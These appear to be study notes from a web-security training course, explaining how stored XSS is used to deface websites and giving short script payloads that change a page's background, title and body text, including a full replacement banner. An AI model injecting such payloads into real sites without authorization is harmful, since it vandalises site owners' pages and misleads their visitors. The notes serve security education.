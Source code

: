 # Defacing

- one of the most common attacks usually used with stored XSS is website defacing attacks
- defacing - changing its look for anyone who visits the website
- https://www.bbc.co.uk/news/technology-43812539
- such attacks can carry great media echo and may significantly affect a company's investments and share prices, and especially for banks and technology firms
- although many other vulns may be utilized to achieve the same thing, stored XSS vulns are among the most used

## Defacement Elements

- can use injected JS code (through XSS) to make a web page look any way we like
- defacing a website is usually used to send a simple message (ie - we successfully hacked you)
- Three HTML elements are usually utilized to change the main look of a web page
	- Background color `document.body.style.background`
	- Background `document.body.background`
	- Page title `document.title`
	- Page text `DOM.innerHTML`

### Changing the background

- `Stored XSS`
```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

### Changing the Page title

```html
<script>document.title = "Hacked!"</script>
```

### Changing the Page text

```html
<script>
	document.getElementById("something").innerHTML = "new text";
</script>
<script>
	$("#something").html("new text")
</script>
<script>
	document.getElementByTagName("body")[0].innerHTML = "new text";
</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

---
